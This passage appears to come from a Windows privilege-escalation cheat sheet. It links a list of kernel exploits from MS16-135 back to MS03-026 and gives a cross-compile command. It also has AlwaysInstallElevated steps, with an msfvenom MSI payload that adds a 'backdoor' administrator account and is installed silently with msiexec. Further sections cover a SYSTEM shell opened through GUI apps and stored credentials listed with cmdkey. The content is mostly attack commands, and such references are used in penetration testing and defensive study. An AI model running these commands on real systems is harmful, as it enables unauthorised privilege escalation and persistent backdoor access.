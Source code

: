 - [MS16-135](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135) 　[KB3199135]　　[Windows Kernel Mode Drivers]　　(2016)
- [MS16-111](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-111) 　[KB3186973]　　[kernel api]　　(Windows 10 10586 (32/64)/8.1)
- [MS16-098](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098) 　[KB3178466]　　[Kernel Driver]　　(Win 8.1)
- [MS16-075](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-075) 　[KB3164038]　　[Hot Potato]　　(2003/2008/7/8/2012)
- [MS16-034](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-034) 　[KB3143145]　　[Kernel Driver]　　(2008/7/8/10/2012)
- [MS16-032](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032) 　[KB3143141]　　[Secondary Logon Handle]　　(2008/7/8/10/2012)
- [MS16-016](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-016) 　[KB3136041]　　[WebDAV]　　(2008/Vista/7)
- [MS16-014](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-014) 　[K3134228]　　[remote code execution]　　(2008/Vista/7)    
...
- [MS03-026](./MS03-026) 　[KB823980]　　 [Buffer Overrun In RPC Interface]　　(/NT/2000/XP/2003)  

To cross compile a program from Kali, use the following command.

```powershell
Kali> i586-mingw32msvc-gcc -o adduser.exe useradd.c
```

## EoP - AlwaysInstallElevated

Check if these registry values are set to "1".

```bat
$ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Then create an MSI package and install it.

```powershell
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
$ msiexec /quiet /qn /i C:\evil.msi
```

Technique also available in Metasploit : `exploit/windows/local/always_install_elevated`

## EoP - Insecure GUI apps

Application running as SYSTEM allowing an user to spawn a CMD, or browse directories.

Example: "Windows Help and Support" (Windows + F1), search for "command prompt", click on "Click to open Command Prompt"

## EoP - Runas

Use the `cmdkey` to list the stored credentials on the machine.

```powershell
cmdkey /list
Currently stored credentials:
 Target: Domain:interactive=WORKGROUP\Administrator
 Type: Domain Password
 User: WORKGROUP\Administrator
```
